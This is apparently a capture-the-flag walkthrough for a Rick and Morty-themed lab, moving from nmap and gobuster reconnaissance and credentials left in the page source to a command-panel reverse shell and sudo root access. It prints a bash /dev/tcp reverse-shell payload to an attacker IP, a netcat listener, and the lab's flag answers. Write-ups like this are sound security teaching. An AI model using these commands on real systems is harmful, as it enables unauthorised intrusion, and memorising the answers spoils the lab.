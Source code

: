 At the start, access the target website:  

![image](https://github.com/user-attachments/assets/5b03add0-7511-437f-bd19-9e3a79321279)

<span style="line-height:0.5;">&nbsp;</span>

Next, inspect the page source to extract valuable information. In the page source you can identify the username: 
<pre> R1ckRul3s </pre>  

<span style="line-height:0.5;">&nbsp;</span>

Use nmap to scan the network and identify open ports on the target system:
```BASH
sudo nmap -sV -p- $ip
```

![image-1](https://github.com/user-attachments/assets/3d3bda10-eabc-4002-932b-1c8f6d2c3121)

The scan reveals that only ports 22 (SSH) and 80 (HTTP) are open. Let's check robots.txt file with curl, which returns:

![image-3](https://github.com/user-attachments/assets/20b18b7c-b51a-46e9-97c9-db838d2a2c93)
<pre>Wubbalubbadubdub</pre>

<span style="line-height:0.5;">&nbsp;</span>

Use Gobuster to identify hidden directories. Run:
```BASH
gobuster dir -u "http://$ip/" -w /usr/share/wordlists/dirbuster/directory-list-1.0.txt -t 64
```

![image-2](https://github.com/user-attachments/assets/91eedcd4-889c-4ee6-877c-c51114dc791a)

The only discovered directory is `/assets`, which contains several JavaScript and CSS files. We then focus on login.php for further exploitation. 

![image-4](https://github.com/user-attachments/assets/54663b94-dae0-4038-97ba-3afe70ef4405)

<span style="line-height:0.5;">&nbsp;</span>

Navigating to: `$ip/login.php` reveals the login interface. Upon logging in with the previously extracted credentials, the site redirects us, but everything seems blocked except for a `commands` tab. This suggests that the application may be vulnerable to a reverse shell injection.

![image-5](https://github.com/user-attachments/assets/b69c2868-d47e-4dde-b341-a6979baad055)

<span style="line-height:0.5;">&nbsp;</span>

Start a Netcat listener on your attacker machine:
```BASH
nc -lvnp 4444
```

<span style="line-height:0.5;">&nbsp;</span>

Then use the following payload to spawn a reverse shell:
```BASH
bash -c 'bash -i >& /dev/tcp/10.10.193.82/4444 0>&1'
```
![image-7](https://github.com/user-attachments/assets/4685e820-c75d-4fae-9f12-37bb0d4109f6)

<span style="line-height:0.5;">&nbsp;</span>

After clicking execute, the reverse shell connects back to your Netcat listener. To stabilize the shell, execute within your Netcat session:
```BASH
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

![image-8](https://github.com/user-attachments/assets/6d0b3fe5-4ac4-4050-898e-59f77a803af8)

![image-9](https://github.com/user-attachments/assets/36b951cc-5b12-4ed2-a7ef-db23c429358e)

<span style="line-height:0.5;">&nbsp;</span>

### What is the first ingredient that Rick needs?
<pre>mr. meeseek hair</pre>

<span style="line-height:0.5;">&nbsp;</span>

Next, determine which users can execute commands with root privileges.  

![image-10](https://github.com/user-attachments/assets/12e273ea-8149-49a8-8ad6-31cdb62fd5de)

A quick inspection shows that the www-data user has full sudo access without a password:  

`(ALL) NOPASSWD: ALL`

```BASH
sudo su -
```

![image-11](https://github.com/user-attachments/assets/6e6edd26-28c9-4d01-862a-60b8b8ae1082)

<span style="line-height:0.5;">&nbsp;</span>

### What is the last and final ingredient?

![image-12](https://github.com/user-attachments/assets/b289d573-4a05-4acf-98bf-705b08ed6528)

<pre>fleeb juice</pre>

<span style="line-height:0.5;">&nbsp;</span>

### What is the second ingredient in Rick’s potion?  

![image-13](https://github.com/user-attachments/assets/0e0d11e6-1a1c-4ef6-98de-e5797e2c0f81)

 
<pre>jerry tear</pre>
